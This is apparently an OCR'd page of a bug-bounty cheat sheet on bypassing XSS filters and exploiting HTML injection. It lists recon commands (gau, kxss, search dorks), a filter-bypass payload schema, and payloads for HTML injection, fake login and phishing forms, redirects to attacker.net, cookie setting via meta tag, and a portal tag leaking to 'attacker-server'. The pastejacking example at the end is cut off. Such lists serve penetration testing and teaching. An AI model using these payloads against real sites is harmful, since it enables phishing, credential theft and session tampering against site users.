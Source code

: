 - Basic Schema
	`<tag handler=code>`
- Advanced Final Schema 
	Try to make you Payloads inspired by this schema this will help you to bypass filters/Bypasses
	`extra1<tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3`
- [Filter Bypass Procedure](https://brutelogic.com.br/blog/filter-bypass-procedure/)
```python
#XSS vs WAF 
1) use <x & jump to event handler 
2) use onxxx=yyy & find number of x it accepts 
3) test them & change tag accordingly 
4) put js
```
### 1) Find a reflection point
- use gau/waymore to grab all urls and pass them to kxss tool to test reflection
	`echo "domain.com" | gau | kxss | grep ">"`
- Do some Google or any seach engines dorking to find endpoints
	```python
	ext:php | ext:asp | ext:aspx | ext:jsp | ext:asp | ext:pl | ext:cfm | ext:py | ext:rb | ext:.html
	```
- Navigate to website and try every single function and features with burp/ZAP logging the requests Testing every parameter for relection using Extenstions like "Reflector" or "Reflect" 
  - FUZZING parameters using "Param-Miner" and "Arjun and test their reflection

### 2) Get HTML injection
- Payloads
```html
88<h1>POC for h0tak88r</h1>88  
%253Ch1%253EHTML%253C%252Fh1%253E  
<iframe id="if1" src="https://www.google.com"></iframe>  
&amp;lt;h1&amp;gt;HTML&amp;lt;/h1&amp;gt;  
&#60;h1&#62;HTML&#60;/h1&#62;  
---------  
<form method="GET">Username: <input type="text" name="username" value="" /> <br />Password: <input type="password" name="passwd" value="" /> <br /><input type="submit" name="submit" value="login" /></form>  
------------------  
<h1>!!</h1><br/><h2><p style=\"color:red;\">there is a new discount code of 80%. Take advantage of it now!</p><form action=\"https://url/\"><button type=\"submit\">Click Here</button></h2>
```
#### [HTML Injection Exploitation/Escalation](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
- Open Redirect
	```html
	<a href=http://attacker.net/payload.html><font size=100 color=red>You must click me</font></a>
	<meta http-equiv="refresh" content="0; url=http://h0tak88r.github.io" />
	```
- Setting a Cookie
	```html
	<meta http-equiv="Set-Cookie" Content="SESSID=1">
	```
- [Portal Tag](https://research.securitum.com/security-analysis-of-portal-element/)
	```html
	<portal src='https://attacker-server?
	```
- [PasteJacking Attack](https://freedium.cfd/https://corneacristian.medium.com/methods-to-exploit-html-injection-17b4254035e)
	```html
	<html>  
	   <body>  
	      <span style="display: block; float: left;">Copy me<br> </span>  